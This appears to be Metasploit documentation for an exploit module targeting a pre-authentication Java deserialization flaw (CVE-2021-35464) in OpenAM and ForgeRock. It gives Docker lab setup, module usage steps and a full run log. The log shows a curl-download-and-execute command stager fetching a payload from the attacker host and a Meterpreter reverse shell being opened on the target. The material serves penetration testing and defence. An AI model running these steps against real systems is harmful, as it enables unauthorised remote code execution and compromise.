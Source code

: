 ## Vulnerable Application

### Description

This module leverages a pre-authentication remote code execution vulnerability in the OpenAM identity and access
management solution. The vulnerability arises from a Java deserialization flaw in OpenAM’s implementation of the Jato
framework and can be triggered by a simple one-line GET or POST request to a vulnerable endpoint. Successful
exploitation yields code execution on the target system.

This vulnerability also affects the ForgeRock identity platform which is built on top of OpenAM and is thus
is susceptible to the same issue.

### Installation

#### OpenAM on Ubuntu 20.04.2 x64 with Docker version 20.10.2

*This maps TCP port 7080 to the containers port 8080.*

1. `sudo docker run -h localhost -p 7080:8080 --name openam openidentityplatform/openam`
1. Navigate to http://<ip_address>:7080/openam
1. Follow the manual configuration steps. Automatic configuration appears to fail.
1. Except where otherwise noted, use the default configuration values and set password fields where required.
    1. In Step 3, set the ports to the following values
        * DIRECTORY_ADMIN_PORT = 4444
        * DIRECTORY_JMX_PORT = 1689
        * DIRECTORY_PORT = 389
    1. In Step 4, select "OpenAM User Data Store"

#### ForgeRock with Docker

*This assumes that the ForgeRock `AM-6.5.3.war` file is available for deployment.*

1. Rename or copy `AM-6.5.3.war` to `openam.war`
1. In the same directory as the `openam.war` file, create a `Dockerfile` with the following contents:

    ```
    FROM tomcat:8.5.3-jre8
    
    MAINTAINER metasploit
    
    COPY openam.war /usr/local/tomcat/webapps/
    ```

1. Build the docker image using `docker build . -t forgerock`
1. Run the container using `docker container run -it --publish 8080:8080 forgerock`
1. Navigate to http://<ip_address>:8080/openam
1. Follow the default configuration steps.

## Verification Steps

1. OpenAM
1. Perform manual configuration of OpenAM
1. Do: `use exploit/multi/http/multi/http/cve_2021_35464_forgerock_openam`
1. Do: `set RHOST <ip>`
1. Do: `set LHOST <ip>`
1. Do: `set LPORT <port>`
1. Do: `run`
1. You should get a Meterpreter session.

## Scenarios

#### OpenAM on Ubuntu 20.04.2 x64 with Docker version 20.10.2
```
msf6 exploit(multi/http/cve_2021_35464_forgerock_openam) > show options

Module options (exploit/multi/http/cve_2021_35464_forgerock_openam):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.134.134  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      7080             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local mac
                                         hine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.135.197  yes       The listen address (an interface may be specified)
   LPORT  8443             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf6 exploit(multi/http/cve_2021_35464_forgerock_openam) > run

[*] Started reverse TCP handler on 192.168.135.197:8443 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:8080/Zrrhm8JKIL8QB2Q
[*] Local IP: http://192.168.135.197:8080/Zrrhm8JKIL8QB2Q
[*] Generated command stager: ["curl -so /tmp/wMKsYYMP http://192.168.135.197:8080/Zrrhm8JKIL8QB2Q;chmod +x /tmp/wMKsYYMP;/tmp/wMKsYYMP;rm -f /tmp/wMKsYYMP"]
[+] Successfully executed command: curl -so /tmp/wMKsYYMP http://192.168.135.197:8080/Zrrhm8JKIL8QB2Q;chmod +x /tmp/wMKsYYMP;/tmp/wMKsYYMP;rm -f /tmp/wMKsYYMP
[*] Client 192.168.134.134 (curl/7.64.0) requested /Zrrhm8JKIL8QB2Q
[*] Sending payload to 192.168.134.134 (curl/7.64.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3012548 bytes) to 192.168.134.134
[*] Command Stager progress - 100.00% done (123/123 bytes)
[*] Meterpreter session 11 opened (192.168.135.197:8443 -> 192.168.134.134:44944) at 2021-07-02 15:59:30 -0500
[*] Server stopped.

meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Debian 10.9 (Linux 5.8.0-53-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: openam @ localhost (uid=1001, gid=0, euid=1001, egid=0)
meterpreter > 
```
